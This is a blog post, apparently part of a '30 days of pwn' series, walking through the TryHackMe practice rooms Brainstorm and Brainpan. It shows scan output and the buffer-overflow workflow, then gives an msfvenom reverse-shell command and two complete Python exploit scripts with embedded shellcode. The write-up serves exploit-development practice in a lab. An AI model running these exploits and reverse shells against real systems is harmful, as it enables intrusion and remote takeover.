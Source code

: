 ```yaml
---
layout: post
title:  "Tryhackme Day Seven"
date:   2020-07-07 20:05:48 +0100
categories: pwn
---
```


Here is day seven of the 30 days of pwn challenge. Today we will be looking at 2 TryHackMe machines: [Brainpan](https://tryhackme.com/room/brainpan) and [Brainstorm](https://tryhackme.com/room/brainstorm)

## Brainstorm

### NMAP
```
PORT     STATE    SERVICE
21/tcp   open     ftp
3389/tcp open     ms-wbt-server
9999/tcp open abyss
```

### FTP
```
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  08:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> binary
200 Type set to I.
ftp> mget *
```
Now we have the useful files for the chatserver, we can run it on a windows machine and try to get an exploit from it.

### Finding offset
```
└──╼ $msf-pattern_offset -l 5000 -q 31704330
[*] Exact match at offset 2012
```
After attaching the process to immunity debugger and sending the 5000 char payload, we see that the program crashes upon trying to return to "31704330"

With this knowledge we can search the hex address in msf-pattern_offset to find the offset we need.

### Identify bad chars
```
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```
After Sending the payload including these bad chars, we can look on immunity debugger to see if there are any characters missing from the dump
In this case there are no bad chars (other than \x00).


## Checking Protections
```
!mona modules
```
Using this command we can find the current protections on the binaries that we will be attacking. In this case neither of the programs have any protections on them.
### Finding JUMP ESP gadget
```
!mona find -s '\xff\xe4' -m essfunc.dll
```
This command will show us all of the jump esp gadgets we can use on the machine to return to our shellcode.

### Generate Shell code
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.14 LPORT=4444 -b "\x00" -f python
```
### Exploit Code
```
from pwn import *

r = remote("10.10.10.12",9999)
username = "c0rn"
offset = "A" * 2012
JMP_ESP = p32(0x625014DF)
nop_slide = "\x90" * 100

buf =  b""
buf += b"\xbb\x53\x2f\x16\xb0\xd9\xee\xd9\x74\x24\xf4\x5e\x33"
buf += b"\xc9\xb1\x52\x31\x5e\x12\x03\x5e\x12\x83\xbd\xd3\xf4"
buf += b"\x45\xbd\xc4\x7b\xa5\x3d\x15\x1c\x2f\xd8\x24\x1c\x4b"
buf += b"\xa9\x17\xac\x1f\xff\x9b\x47\x4d\xeb\x28\x25\x5a\x1c"
buf += b"\x98\x80\xbc\x13\x19\xb8\xfd\x32\x99\xc3\xd1\x94\xa0"
buf += b"\x0b\x24\xd5\xe5\x76\xc5\x87\xbe\xfd\x78\x37\xca\x48"
buf += b"\x41\xbc\x80\x5d\xc1\x21\x50\x5f\xe0\xf4\xea\x06\x22"
buf += b"\xf7\x3f\x33\x6b\xef\x5c\x7e\x25\x84\x97\xf4\xb4\x4c"
buf += b"\xe6\xf5\x1b\xb1\xc6\x07\x65\xf6\xe1\xf7\x10\x0e\x12"
buf += b"\x85\x22\xd5\x68\x51\xa6\xcd\xcb\x12\x10\x29\xed\xf7"
buf += b"\xc7\xba\xe1\xbc\x8c\xe4\xe5\x43\x40\x9f\x12\xcf\x67"
buf += b"\x4f\x93\x8b\x43\x4b\xff\x48\xed\xca\xa5\x3f\x12\x0c"
buf += b"\x06\x9f\xb6\x47\xab\xf4\xca\x0a\xa4\x39\xe7\xb4\x34"
buf += b"\x56\x70\xc7\x06\xf9\x2a\x4f\x2b\x72\xf5\x88\x4c\xa9"
buf += b"\x41\x06\xb3\x52\xb2\x0f\x70\x06\xe2\x27\x51\x27\x69"
buf += b"\xb7\x5e\xf2\x3e\xe7\xf0\xad\xfe\x57\xb1\x1d\x97\xbd"
buf += b"\x3e\x41\x87\xbe\x94\xea\x22\x45\x7f\x1f\xb9\x4f\x71"
buf += b"\x77\xbf\x4f\x9c\xdb\x36\xa9\xf4\xf3\x1e\x62\x61\x6d"
buf += b"\x3b\xf8\x10\x72\x91\x85\x13\xf8\x16\x7a\xdd\x09\x52"
buf += b"\x68\x8a\xf9\x29\xd2\x1d\x05\x84\x7a\xc1\x94\x43\x7a"
buf += b"\x8c\x84\xdb\x2d\xd9\x7b\x12\xbb\xf7\x22\x8c\xd9\x05"
buf += b"\xb2\xf7\x59\xd2\x07\xf9\x60\x97\x3c\xdd\x72\x61\xbc"
buf += b"\x59\x26\x3d\xeb\x37\x90\xfb\x45\xf6\x4a\x52\x39\x50"
buf += b"\x1a\x23\x71\x63\x5c\x2c\x5c\x15\x80\x9d\x09\x60\xbf"
buf += b"\x12\xde\x64\xb8\x4e\x7e\x8a\x13\xcb\x8e\xc1\x39\x7a"
buf += b"\x07\x8c\xa8\x3e\x4a\x2f\x07\x7c\x73\xac\xad\xfd\x80"
buf += b"\xac\xc4\xf8\xcd\x6a\x35\x71\x5d\x1f\x39\x26\x5e\x0a"

payload = offset + JMP_ESP + nop_slide + buf

r.recv(1024)
r.sendline(username)
r.recv(1024)
r.sendline(payload)
r.close()
```

## Brainpan

### NMAP
```
PORT      STATE    SERVICE
5718/tcp  filtered dpm
9999/tcp  open     abyss
10000/tcp open     snet-sensor-mgm
```

### Finding the binary
```
gobuster dir -u http://10.10.58.196:10000/ -w /opt/SecLists/Discovery/Web-Content/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.58.196:10000/
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/07 08:05:11 Starting gobuster
===============================================================
/bin (Status: 301)
```
### Exploiting the binary
Since this machine is literally exactly the same process as the previous machine, I will not copy and paste the commands over as it will add nothing.

### Exploit Code
```
from pwn import *

r = remote("10.10.10.12",9999)
offset = "A" * 524
JUMP_ESP = p32(0x311712F3)
nop_slide = "\x90" * 100
buf =  b""
buf += b"\xdb\xd3\xbd\x30\x3e\x7a\xa3\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x52\x31\x68\x17\x83\xc0\x04\x03\x58\x2d\x98"
buf += b"\x56\x64\xb9\xde\x99\x94\x3a\xbf\x10\x71\x0b\xff\x47"
buf += b"\xf2\x3c\xcf\x0c\x56\xb1\xa4\x41\x42\x42\xc8\x4d\x65"
buf += b"\xe3\x67\xa8\x48\xf4\xd4\x88\xcb\x76\x27\xdd\x2b\x46"
buf += b"\xe8\x10\x2a\x8f\x15\xd8\x7e\x58\x51\x4f\x6e\xed\x2f"
buf += b"\x4c\x05\xbd\xbe\xd4\xfa\x76\xc0\xf5\xad\x0d\x9b\xd5"
buf += b"\x4c\xc1\x97\x5f\x56\x06\x9d\x16\xed\xfc\x69\xa9\x27"
buf += b"\xcd\x92\x06\x06\xe1\x60\x56\x4f\xc6\x9a\x2d\xb9\x34"
buf += b"\x26\x36\x7e\x46\xfc\xb3\x64\xe0\x77\x63\x40\x10\x5b"
buf += b"\xf2\x03\x1e\x10\x70\x4b\x03\xa7\x55\xe0\x3f\x2c\x58"
buf += b"\x26\xb6\x76\x7f\xe2\x92\x2d\x1e\xb3\x7e\x83\x1f\xa3"
buf += b"\x20\x7c\xba\xa8\xcd\x69\xb7\xf3\x99\x5e\xfa\x0b\x5a"
buf += b"\xc9\x8d\x78\x68\x56\x26\x16\xc0\x1f\xe0\xe1\x27\x0a"
buf += b"\x54\x7d\xd6\xb5\xa5\x54\x1d\xe1\xf5\xce\xb4\x8a\x9d"
buf += b"\x0e\x38\x5f\x31\x5e\x96\x30\xf2\x0e\x56\xe1\x9a\x44"
buf += b"\x59\xde\xbb\x67\xb3\x77\x51\x92\x54\x72\xac\x96\xaa"
buf += b"\xea\xb2\xa6\xa3\xb6\x3b\x40\xa9\x56\x6a\xdb\x46\xce"
buf += b"\x37\x97\xf7\x0f\xe2\xd2\x38\x9b\x01\x23\xf6\x6c\x6f"
buf += b"\x37\x6f\x9d\x3a\x65\x26\xa2\x90\x01\xa4\x31\x7f\xd1"
buf += b"\xa3\x29\x28\x86\xe4\x9c\x21\x42\x19\x86\x9b\x70\xe0"
buf += b"\x5e\xe3\x30\x3f\xa3\xea\xb9\xb2\x9f\xc8\xa9\x0a\x1f"
buf += b"\x55\x9d\xc2\x76\x03\x4b\xa5\x20\xe5\x25\x7f\x9e\xaf"
buf += b"\xa1\x06\xec\x6f\xb7\x06\x39\x06\x57\xb6\x94\x5f\x68"
buf += b"\x77\x71\x68\x11\x65\xe1\x97\xc8\x2d\x11\xd2\x50\x07"
buf += b"\xba\xbb\x01\x15\xa7\x3b\xfc\x5a\xde\xbf\xf4\x22\x25"
buf += b"\xdf\x7d\x26\x61\x67\x6e\x5a\xfa\x02\x90\xc9\xfb\x06"
payload = offset + JUMP_ESP + nop_slide + buf

print r.recv(1024)
r.sendline(payload)
r.close()
```

I won't detail the priv esc for brainpan since it's supposed to be 30 days of pwn, but it's simply checking sudo priveleges and spawning a shell from it.

## Conclusion

This was a nice break from the other pwn stuff I have been doing. It's an extremely simple process to go through and I will be extremely happy if this is similar to the OSCP buffer overflow machine! I would imagine they have an extra hoop to go through when doing it though.